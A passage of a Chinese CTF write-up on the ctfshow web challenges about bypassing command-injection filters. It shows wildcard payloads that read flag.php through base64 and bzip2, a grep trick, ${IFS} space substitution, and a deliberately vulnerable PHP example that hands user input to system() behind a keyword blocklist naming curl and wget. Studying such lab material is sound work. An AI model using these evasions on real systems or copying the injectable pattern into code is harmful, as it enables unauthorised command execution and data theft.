 主要过滤了字母，分号，<>，使用通配符代替字母，目录调用命令即可。

payload1：

```bash
/???/????64 ????.???  #/bin/base64 flag.php
1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018211918415.png#pic_center)

payload2:

```bash
/???/???/????2 ????.??? #/usr/bin/bzip2 flag.php
1
```

然后下载flag.php.bz2

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018212145207.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)





##### 0x15 grep绕过关键词过滤

用法：

```bash
grep { flag.php
grep { f???????
12
```

打印`flag.php`中含有`{`的行。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018205237993.png#pic_center)

例题：ctfshow-web入门54

```bash
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
123456789
```

过滤了很多关键词，正好grep没有过滤，再用${IFS}代替空格，fla?.php代替flag.php即可绕过。
